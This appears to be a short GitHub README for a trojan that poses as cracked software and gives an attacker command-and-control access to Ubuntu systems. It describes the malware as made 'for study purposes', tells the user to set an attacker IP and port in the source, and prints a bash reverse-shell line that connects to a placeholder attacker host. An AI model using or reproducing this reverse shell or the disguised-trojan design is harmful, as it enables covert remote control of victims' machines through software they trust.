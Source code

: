 # Trojan - Crack Software
Basic trojan with command and control functionatilies for ubuntu based systems.

This trojan was created for study porpuses only, to emulate a cracked software that comes with a malware inside. It was coded in C and Bash.

## How to use:

1 - Change the attacker IP Address and Port to connect in the source code (line 52).

```
bash -i >& /dev/tcp/attackerip/porttoconnect 0>&1 2>&1
```
